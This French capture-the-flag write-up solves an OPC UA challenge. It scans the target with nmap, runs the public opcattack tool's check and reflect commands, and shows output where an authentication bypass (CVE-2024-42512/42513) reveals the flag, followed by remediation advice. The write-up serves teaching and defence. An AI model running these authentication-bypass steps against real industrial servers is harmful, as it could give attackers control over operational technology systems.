




# Challenge : Nouveau Boss

## Informations du challenge

| Catégorie | Difficulté | Points | Auteur |
|-----------|------------|--------|--------|
| Indus | Difficile | 500 | WaRRioROXY |

**Preuve:** `H3nR1_Nap0l1No_L3_paP1Ll0n`


## Introduction - Qu'est-ce que OPC UA ?

**OPC Unified Architecture** (OPC UA) est un protocole de communication standardisé, largement utilisé dans les domaines de l’automatisation industrielle et de l’IoT. Il est employé au sein des réseaux OT, mais également comme pont entre les environnements IT et OT.

Traditionnellement, des tunnels VPN sont utilisés pour sécuriser les connexions entre les zones de confiance OT (notamment lorsqu’elles transitent par Internet). Cependant, cela est parfois considéré comme superflu avec OPC UA, car ce protocole intègre sa propre couche de sécurité, incluant l’authentification cryptographique et la protection des échanges.

Cela fait d’OPC UA une cible de choix pour les attaquants : si un serveur OPC UA exposé sur Internet est compromis, un attaquant pourrait potentiellement prendre le contrôle des systèmes industriels qu’il pilote.

Le protocole OPC UA repose sur un modèle **client/serveur**, dans lequel le serveur expose des données que le client peut lire ou modifier.

La sécurité d’OPC UA s’appuie sur trois éléments clés :

- une **politique de sécurité** (définissant les algorithmes cryptographiques utilisés),
- un **mode de sécurité** (_Aucun_, _Signé_, _Signé & Chiffré_),
- des **certificats X.509** pour l’authentification des clients et des serveurs.

Chaque connexion OPC UA s’établit en plusieurs étapes : ouverture d’un **canal sécurisé**, création d’une **session**, puis authentification de l’utilisateur avant l’accès aux données.

Dans ce challenge, l'objectif est d'exploiter une **vulnérabilité de configuration** permettant un **contournement d’authentification** via une attaque par réflexion.


## Résolution du challenge

### Étape 1 - Reconnaissance

On commence par un scan réseau de la machine cible à l'aide de l'outil Nmap pour identifier les services exposés :

```bash
nmap -p- -sVC 92.222.229.109
```



On identifie le port 53443 comme étant intéressant :

| Port      | Etat   | Service     |
| --------- | ------ | ----------- |
| 53443/tcp | Ouvert | ssl/unknown |
Le résultat du scan ne fournit pas d’information sur le nom du service accessible via ce port 53443. Cependant, le certificat SSL de ce service révèle la présence d’un serveur OPC UA ainsi que le nom de la machine. :

```
Subject Alternative Name: URI:urn:WIN-NOJHI0A96F3:OPCUA:SimulationServer
```

On peut alors ajouter le nom de la machine et son IP dans le fichier **hosts** de notre machine comme suit :

- Linux (Bash) : ```echo "92.222.229.109 WIN-NOJHI0A96F3" | sudo tee -a /etc/hosts```
- Windows (Powershell) : ```Add-Content -Path "C:\Windows\System32\drivers\etc\hosts" -Value "92.222.229.109 WIN-NOJHI0A96F3"```


### Étape 2 - Identification de la vulnérabilité

#### Recherche d'informations

On commence par rechercher des vulnérabilités connues liées au protocole OPC UA sur Internet :

```
Google : "OPC UA vulnerability"
Google : "OPC UA security bypass"
Google : "OPC UA exploit cve"
```

On trouve rapidement le dépôt GitHub de Bureau Veritas Cybersecurity : **[opcattack](https://github.com/bvcyber/opcattack)**, un outil de proof-of-concept pour plusieurs attaques contre le protocole OPC UA, publié par Tom Tervoort, chercheur en sécurité informatique et présenté lors de la [Black Hat USA 2025](https://blackhat.com/us-25/briefings/schedule/index.html#no-vpn-needed-cryptographic-attacks-against-the-opc-ua-protocol-44760).

Ces vulnérabilités ont été officiellement référencées dans les [**CVE-2024-42512**](https://files.opcfoundation.org/SecurityBulletins/OPC%20Foundation%20Security%20Bulletin%20CVE-2024-42512.pdf) et **[CVE-2024-42513](https://files.opcfoundation.org/SecurityBulletins/OPC%20Foundation%20Security%20Bulletin%20CVE-2024-42513.pdf)**, publiées par la OPC Foundation. Elles concernent respectivement des faiblesses dans les mécanismes d’authentification dans certaines configurations OPC UA.

L'outil permet notamment de réaliser les deux attaques suivantes avec plusieurs variantes :

1) **Attaque de type réflexion/relais HTTPS** :
    - _reflect_ : le serveur accepte et renvoie ses propres messages d’authentification, notamment lorsqu’il fait confiance à son propre certificat,
    - _relay_ : interception et relais des échanges entre un client et un serveur légitime afin d’usurper une session valide (type homme du milieu).

2) **Attaque par oracle de padding RSA** :
    - _decrypt_ : exploitation des erreurs de padding pour retrouver le contenu chiffré,
    - _sigforge_ : génération ou falsification de signatures valides en exploitant les réponses du serveur.

La description précise que l’attaque **reflect** est possible lorsque le serveur **fait confiance à son propre certificat** ou accepte des certificats auto-signés dans le processus d’authentification. Il s’agit d’une mauvaise configuration relativement fréquente dans certaines implémentations OPC UA qui ouvre la voie à des contournements d’authentification.

L’attaque **relay** repose quant à elle sur un scénario de type **man-in-the-middle**, où les messages d’authentification sont interceptés et relayés entre un client et un serveur légitime afin d’usurper une session valide.

<u>Dans le cadre de ce challenge, seule la première attaque, de type réflexion HTTPS, est exploitée pour obtenir le flag.</u>

### Étape 3 - Enumération des endpoints

On installe l'outil :

```bash
git clone https://github.com/SecuraBV/opcattack.git
cd opcattack
pip install -r requirements.txt
```

On vérifie les attaques possibles sur le serveur :

```bash
./opcattack.py check https://WIN-NOJHI0A96F3:53443/
[*] Checking https://WIN-NOJHI0A96F3:53443/...
[*] 2 endpoints:
[*] -----------------------
[*] + Endpoint #1 (opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16) (EndpointDescription):
[*] |+ endpointUrl: opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16
[*] |+ server (ApplicationDescription):
[*]  |+ applicationUri: urn:WIN-NOJHI0A96F3:OPCUA:SimulationServer
[*]  |+ productUri: urn:prosysopc.com:OPCUA:SimulationServer
[*]  |+ applicationName (LocalizedText):
[*]   |+ locale: NULL
[*]   |+ text: SimulationServer@WIN-NOJHI0A96F3
[*]  |+ applicationType: 0
[*]  |+ gatewayServerUri: NULL
[*]  |+ discoveryProfileUri: NULL
[*]  |+ discoveryUrls (list):
[*]   |+ 0: opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16
[*]   |+ 1: opc.tcp://WIN-NOJHI0A96F3:53530/OPCUA/Prosys-ProductionServer-2026.1.0-16
[*] |+ serverCertificate: 30820405308202eda0030201020206019dee019b...
[*] |+ securityMode: 2
[*] |+ securityPolicyUri: SecurityPolicy.BASIC128RSA15
[*] |+ userIdentityTokens (list):
[*]  |+ 0 (UserTokenPolicy):
[*]   |+ policyId: anonymous
[*]   |+ tokenType: 0
[*]   |+ issuedTokenType: NULL
[*]   |+ issuerEndpointUrl: NULL
[*]   |+ securityPolicyUri: NULL
[*]  |+ 1 (UserTokenPolicy):
[*]   |+ policyId: certificate_basic256
[*]   |+ tokenType: 2
[*]   |+ issuedTokenType: NULL
[*]   |+ issuerEndpointUrl: NULL
[*]   |+ securityPolicyUri: SecurityPolicy.BASIC256
[*]  |+ 2 (UserTokenPolicy):
[*]   |+ policyId: certificate_basic256sha256
[*]   |+ tokenType: 2
[*]   |+ issuedTokenType: NULL
[*]   |+ issuerEndpointUrl: NULL
[*]   |+ securityPolicyUri: SecurityPolicy.BASIC256SHA256
[*]  |+ 3 (UserTokenPolicy):
[*]   |+ policyId: username_basic256
[*]   |+ tokenType: 1
[*]   |+ issuedTokenType: NULL
[*]   |+ issuerEndpointUrl: NULL
[*]   |+ securityPolicyUri: SecurityPolicy.BASIC256
[*]  |+ 4 (UserTokenPolicy):
[*]   |+ policyId: username_basic256sha256
[*]   |+ tokenType: 1
[*]   |+ issuedTokenType: NULL
[*]   |+ issuerEndpointUrl: NULL
[*]   |+ securityPolicyUri: SecurityPolicy.BASIC256SHA256
[*] |+ transportProfileUri: http://opcfoundation.org/UA-Profile/Transport/https-uabinary
[*] |+ securityLevel: 2
[*] -----------------------
[*] + Endpoint #2 (opc.https://WIN-NOJHI0A96F3:53443) (EndpointDescription):
[*] |+ endpointUrl: opc.https://WIN-NOJHI0A96F3:53443
[*] |+ server (ApplicationDescription):
[*]  |+ applicationUri: urn:WIN-NOJHI0A96F3:OPCUA:SimulationServer
[*]  |+ productUri: urn:prosysopc.com:OPCUA:SimulationServer
[*]  |+ applicationName (LocalizedText):
[*]   |+ locale: NULL
[*]   |+ text: SimulationServer@WIN-NOJHI0A96F3
[*]  |+ applicationType: 0
[*]  |+ gatewayServerUri: NULL
[*]  |+ discoveryProfileUri: NULL
[*]  |+ discoveryUrls (list):
[*]   |+ 0: opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16
[*]   |+ 1: opc.tcp://WIN-NOJHI0A96F3:53530/OPCUA/Prosys-ProductionServer-2026.1.0-16
[*] |+ serverCertificate: 30820405308202eda0030201020206019dee019b...
[*] |+ securityMode: 1
[*] |+ securityPolicyUri: SecurityPolicy.NONE
[*] |+ userIdentityTokens: []
[*] |+ transportProfileUri: http://opcfoundation.org/UA-Profile/Transport/https-uabinary
[*] |+ securityLevel: 0
[*] -----------------------
[*]
[*] Findings:
[+] Endpoint #1 (opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16) supports the HTTPS protocol. It may be vulnerable to a reflect/relay attack.
[+] Endpoint #1 (opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16) supports the vulnerable Basic128Rsa15 policy. It may be vulnerable to a padding oracle attack (which would enable reflect, relay, decrypt and sigforge).
[+] Endpoint #1 (opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16) supports user authentication with certificates. Could potentially also be bypassed via reflect or relay.
[+] Requested URL not in endpoint discovery URL list. Maybe try checking one of the discovery URLs as well?
[+] Endpoint #2 (opc.https://WIN-NOJHI0A96F3:53443) supports the HTTPS protocol. It may be vulnerable to a reflect/relay attack.
[+] Requested URL not in endpoint discovery URL list. Maybe try checking one of the discovery URLs as well?
[*] Note: cn-inject vulnerabilities have not been checked.
```

L’outil indique que le serveur :

- **Expose les endpoints suivants en HTTPS :**
    - `opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16`
    - `opc.https://WIN-NOJHI0A96F3:53443`

- **Utilise le logiciel Prosys OPC UA Simulation Server**
    → Le nom de l’endpoint (`Prosys-ProductionServer-2026.1.0-16`) indique une instance de serveur OPC UA en version 2026.1.0-16, typiquement utilisée pour des environnements de test ou de production industrielle selon le déploiement.

- **Présente des endpoints potentiellement vulnérables** à la première attaque de type **réflexion/relais HTTPS**

- **Utilise la politique de sécurité _Basic128Rsa15_**
    → Politique aujourd’hui dépréciée et connue pour être vulnérable à plusieurs attaques cryptographiques

- **Supporte l’authentification par certificat**
    → Mécanisme potentiellement contournable via des attaques de type _reflect_ ou _relay_


Cette configuration correspond au scénario décrit dans la présentation **« [No VPN Needed? Cryptographic Attacks Against the OPC UA Protocol](https://i.blackhat.com/BH-USA-25/Presentations/USA-25-Tervoort-No-VPN-Needed-Cryptographic-Attacks.pdf) »** du chercheur, dans laquelle ce type de configuration est exploitée pour des contournements d’authentification.


### Étape 4 - Compréhension de la vulnérabilité

#### L'attaque par réflexion (Reflection Attack)

Cette vulnérabilité repose sur la manière dont les signatures sont utilisées dans les messages **CreateSession** (côté serveur) et **ActivateSession** (côté client). Dans les deux cas, aucune information de contexte n’est incluse dans les données signées permettant de distinguer clairement leur rôle (signature client, serveur ou utilisateur). Toutes reposent sur un même format basé sur le certificat du pair et un challenge, sans liaison explicite à une session ou un type de message.

De plus, le serveur signe en premier, ce qui introduit un risque théorique de type **signing oracle** : un client malveillant peut amener le serveur à produire une signature sur des données contrôlées, qui pourraient ensuite être réutilisées dans un autre contexte de session.

Cependant, dans le cas du transport TCP classique d’OPC UA, cette faiblesse est fortement atténuée. La phase **OpenSecureChannel** impose déjà une preuve de possession de la clé privée (signature de requête et déchiffrement de réponse), ce qui limite fortement toute tentative d’usurpation avant la création de session. Dans ce mode, les signatures utilisées dans **CreateSession** et **ActivateSession** apparaissent donc largement redondantes.

La situation change avec le transport **HTTPS**, où les messages OPC UA sont encapsulés dans des requêtes HTTP sécurisées par TLS. Dans ce cas, la phase **OpenSecureChannel** est ignorée, et l’authentification repose uniquement sur **CreateSession** et **ActivateSession**, rendant l’exploitation possible.

L’attaque par réflexion exploite alors cette faiblesse en utilisant deux sessions simultanées avec le serveur :

1. L’attaquant initie une première session et reçoit un **challenge serveur** (nonce) à signer.
2. Il ouvre une seconde session et injecte ce même type de challenge dans le flux d’authentification.
3. Le serveur signe ce challenge dans le cadre de la seconde session.
4. L’attaquant réutilise ensuite cette signature dans la première session.
5. Le serveur valide la signature, car elle correspond bien à un message qu’il a lui-même signé, mais dans un autre contexte.

Le serveur se retrouve ainsi à valider une authentification construite à partir de ses propres signatures, sans pouvoir distinguer correctement le contexte des échanges.

Voici le schéma représentant cette attaque par réflexion :




### Étape 5 - Exploitation

#### Lancement de l'attaque reflect

```bash
./opcattack.py reflect https://WIN-NOJHI0A96F3:53443/
```

Lors du succès de l’attaque, l’outil réalise une **énumération du serveur OPC UA**, c’est-à-dire qu’il parcourt l’ensemble des **nœuds** exposés dans `l'address space` du serveur ciblé.

Dans OPC UA, un **nœud** est un élément de données structuré représentant une ressource du système industriel. Cela peut être :

- un objet (ex : serveur, capteur, machine)
- une variable (ex : température, état)
- un type (définition de structure)
- une méthode (fonction appelable)
- ou une arborescence logique complète du système

L’ensemble de ces nœuds forme un **arbre hiérarchique** représentant tout le modèle de données du serveur industriel.



#### Interprétation de la sortie de l’outil

Après exploitation réussie, le message suivant apparaît :

```
[+] Attack succesfull! Authenticated session set up with opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16.
```

Cela indique que l’attaque par réflexion a fonctionné et que le contournement du mécanisme d’authentification a été réussi, permettant l’établissement d’une session valide sur le serveur.

Une fois la session authentifiée obtenue, l’outil procède automatiquement à la découverte de l’espace de noms OPC UA, également appelé **arbre des nœuds**. Cette structure correspond à l’organisation hiérarchique de toutes les ressources exposées par le serveur industriel.

On retrouve d’abord les éléments de base de cet arbre :

- `<root>` : racine de l’espace OPC UA
- `Objects` : conteneur principal regroupant les objets industriels
- `Server` : représentation du serveur OPC UA lui-même

À partir de cette base, l’outil explore les différentes sous-structures du serveur, notamment :

- `ServerStatus` : informations sur l’état du serveur (santé, exécution, disponibilité)
- `ServerCapabilities` : capacités techniques et fonctionnalités supportées
- `RoleSet` : gestion des rôles et des permissions (contrôle d’accès basé sur les rôles)
- `OperationLimits` : limitations du système (nombre de sessions, requêtes, etc.)

Cette exploration correspond à une **cartographie complète du modèle de données industriel exposé par le serveur**.

Dans l’ensemble, cette phase permet à l’attaquant d’obtenir une vision détaillée du système compromis. Elle révèle notamment l’architecture du serveur OPC UA, ses capacités fonctionnelles, son modèle de contrôle d’accès ainsi que ses limites opérationnelles.

Ce type d’information est particulièrement critique en environnement industriel, car il permet :

- un **fingerprinting précis du système cible**
- l’identification des **surfaces d’attaque exploitables**
- la préparation d’attaques plus ciblées sur les objets OPC UA exposés


```
[*] Attempting reflection attack against https://WIN-NOJHI0A96F3:53443/
[*] Server advertises 2 endpoints.
[*] Targeting opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16 with BASIC128RSA15 security policy.
[*] Creating first session on login endpoint (opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16)
[*] Got server nonce: b'7902663d...'
[*] Forwarding nonce to second session on impersonate endpoint (opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16)
[*] Got signature over nonce: b'67a66ca5...'
[*] Using signature log in to opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16.
[+] Attack succesfull! Authenticated session set up with opc.https://WIN-NOJHI0A96F3:53443/OPCUA/Prosys-ProductionServer-2026.1.0-16.
[*] Trying to browse data via authenticated channel.
[*] Tree:
[+]     |- BossProfile: "H3nR1_Nap0l1No_L3_paP1Ll0n"
```

_Remarque : Si l’authentification client est correctement contournée mais que le serveur exige également une authentification utilisateur, cela est signalé par l’outil. Si l’authentification utilisateur basée sur certificat est autorisée, l’outil tentera automatiquement de réutiliser la signature réfléchie afin de contourner également l’authentification utilisateur._


### Étape 6 - Récupération du flag

En parcourant le résultat de l’attaque, on trouve le flag **H3nR1_Nap0l1No_L3_paP1Ll0n**.



---

## Conclusion

### Ce que cette attaque démontre

Ce challenge met en évidence plusieurs vulnérabilités affectant le protocole OPC UA, notamment dans certaines configurations d'authentification et de transport sécurisé. Ces failles ont été divulguées de manière responsable à la OPC Foundation, qui a publié les **[CVE-2024-42512]**(https://files.opcfoundation.org/SecurityBulletins/OPC%20Foundation%20Security%20Bulletin%20CVE-2024-42512.pdf) et **[CVE-2024-42513]**(https://files.opcfoundation.org/SecurityBulletins/OPC%20Foundation%20Security%20Bulletin%20CVE-2024-42513.pdf.

Des outils comme **opcattack** permettent de détecter la présence de configurations vulnérables dans les environnements où l'impact d'une implémentation reste incertain.

Au-delà des aspects techniques, ces travaux soulignent un point important : **l'usage de tunnels VPN n'est pas systématiquement requis pour sécuriser OPC UA**. Dans la majorité des cas, les vulnérabilités peuvent être corrigées directement au niveau des serveurs sans dégrader la compatibilité des clients existants. Toutefois, pour des systèmes exposés à Internet et particulièrement sensibles, ou dans des environnements où la mise à jour est difficile, l'usage d'un VPN ou d'une liste de contrôle d'accès réseau (allowlisting IP) reste une mesure de protection pertinente.

### Recommandations de remédiation

1. **Ne jamais** ajouter le certificat serveur dans la trust list des clients
2. Utiliser des certificats **différents** pour serveur et clients
3. Utiliser une PKI **séparée** pour les certificats clients et serveurs
4. Désactiver les Security Policies dépréciées (**Basic128Rsa15**)
5. Activer uniquement **Sign & Encrypt** comme Security Mode
6. Désactiver le transport **HTTPS** si non strictement nécessaire
7. Mettre en place un **VPN** ou un **allowlisting IP** pour les systèmes exposés sur Internet

## Références

- https://blackhat.com/us-25/briefings/schedule/index.html#no-vpn-needed-cryptographic-attacks-against-the-opc-ua-protocol-44760
- [opcattack - SecuraBV](https://github.com/SecuraBV/opcattack)
- [OPC Foundation Security Bulletin](https://opcfoundation.org/security/)

---

## Résultat

La solution de notre challenge est donc le prénom, nom et pseudo en leetspeak de **Henri Napolino**.

✅ **Preuve:** `H3nR1_Nap0l1No_L3_paP1Ll0n`
